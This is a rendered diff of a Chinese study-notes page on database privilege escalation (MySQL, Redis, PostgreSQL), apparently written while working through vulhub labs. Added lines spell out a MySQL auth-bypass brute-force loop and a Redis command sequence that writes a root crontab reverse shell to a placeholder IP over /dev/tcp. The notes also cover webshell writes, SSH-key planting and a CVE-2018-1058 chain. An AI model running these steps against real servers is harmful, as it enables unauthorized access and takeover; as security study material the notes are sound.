

Before and after one commit to Monney-sys/daily-learning, a Markdown page: 2026-08-28-数据库提权-五大数据库.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/2026-08-28-数据库提权-五大数据库.md
+++ b/2026-08-28-数据库提权-五大数据库.md
@@ -23,7 +23,7 @@
 
 **数据库提权的共同前提**（缺一不可，判断顺序）：
 
-1. **连接上了**：服务探针（端口 3306/1433/1521/6379/5432 + 指纹）→ 弱口令/未授权/注入/配置文件拿连接
+1. **连接上了**：服务探针（端口 3306/1433/1521/6379/5432 + 指纹）→ 口令获取 → 连接。**口令获取途径**（MySQL 为例）：3306 弱口令爆破 / sqlmap 注入的 `--sql-shell` 模式 / 网站配置文件明文密码（`config.php` 等）/ **CVE-2012-2122 认证绕过**（MySQL/MariaDB 密码比较缺陷，约 256 次尝试蒙对一次，受影响版本 5.1.63、5.5.24、5.6.6 之前；MSF 模块 `auxiliary/scanner/mysql/mysql_authbypass_hashdump`，或 bash 循环 `for i in seq 1 1000; do mysql -u root --password=bad ...; done`）
 2. **信息收集**（MySQL 演示课给的流程：服务探针 → 信息收集 → 提权利用 → 获取权限）：
    - 读网站数据库配置文件 → 了解命名规则与查找技巧（`sql` / `data` / `inc` / `config` / `conn` / `database` / `common` / `include` 等关键词）
    - 读数据库存储/备份文件 → 了解存储格式与内容（`@@basedir/data/数据库名/表名.myd`）
@@ -116,7 +129,7 @@
 - **原理**：Redis 服务**配置不当**（未授权访问：6379 默认无密码 / bind 到所有网卡）+ **以 root 身份运行** → 攻击者用内置命令就能把**任意内容写成任意路径文件**（利用 RDB 持久化 `CONFIG SET dir/dbfilename` + `SAVE`），再把文件变成代码执行/登录手段；顺手还能 `FLUSHALL` 清空数据。
 - **连接方式**：未授权直连（无密码）或弱口令。
 - **三种利用**（导图 + 截图一致）：
-  1. **计划任务反弹 shell**（Linux）：把 crontab 内容写进 `/var/spool/cron/` 对应文件 → root 定时执行反弹命令。⚠️ 踩坑：RDB 文件有序列化头尾，命令前后要加**换行和注释符**包裹，否则 crontab 解析失败
+  1. **计划任务反弹 shell**（Linux）：把 crontab 内容写进 `/var/spool/cron/` 对应文件 → root 定时执行反弹命令。命令序列：`set x "\n* * * * * bash -i >& /dev/tcp/IP/端口 0>&1\n"` → `config set dir /var/spool/cron/` → `config set dbfilename root` → `save`。⚠️ 踩坑：RDB 文件有序列化头尾，命令前后要加**换行和注释符**包裹，否则 crontab 解析失败
   2. **写 SSH 公钥登录**：把攻击机公钥写进 `/root/.ssh/authorized_keys` → 用私钥直接 SSH 登录（需目标开 SSH）
   3. **低权限往 web 物理路径写 webshell**：`dir` 设为网站根目录、`dbfilename` 设为 `.php` → 写入恶意代码 → 访问即得 webshell（权限不够写系统文件时的选择）
 - **修复方案**（截图 1 原文要点，⚠️ 均需**重启 Redis** 才生效）：
@@ -132,7 +145,7 @@
   ```
   COPY cmd FROM PROGRAM 'id';   -- 直接以 PG 进程身份执行系统命令
   ```
-- **另一个漏洞 CVE-2018-1058**（PG 9.0~10）：**search_path 劫持**——攻击者能在库里建对象时，创建与常用函数**同名/同签名**的恶意函数，利用 PostgreSQL 的 schema 搜索顺序（`pg_temp` 优先），诱导高权限用户执行查询时**实际调用到恶意函数**，以高权限上下文执行任意 SQL/代码 ❓（具体利用链待对照）
+- **另一个漏洞 CVE-2018-1058**（PG 9.0~10）：**search_path 劫持**——攻击者能在库里建对象时，创建与常用函数**同名/同签名**的恶意函数，利用 PostgreSQL 的 schema 搜索顺序（`pg_temp` 优先），诱导高权限用户执行查询时**实际调用到恶意函数**，以高权限上下文执行任意 SQL/代码。**vulhub 的完整利用链**：普通用户（vulhub:vulhub）登录 → **普通用户植入后门命令**（建恶意函数/对象）→ **管理员操作数据库触发** → 成功反弹 shell。
 - **修复方案**：升级版本或打补丁。
 - **复现环境**：vulhub `postgres` 目录（本机 `C:/Users/huoyuchen/vulhub` 有整套环境）。
 
````
Also changed, not shown: other parts of 2026-08-28-数据库提权-五大数据库.md (+30 -16 lines), OPEN-QUESTIONS.md (+4 -3 lines).
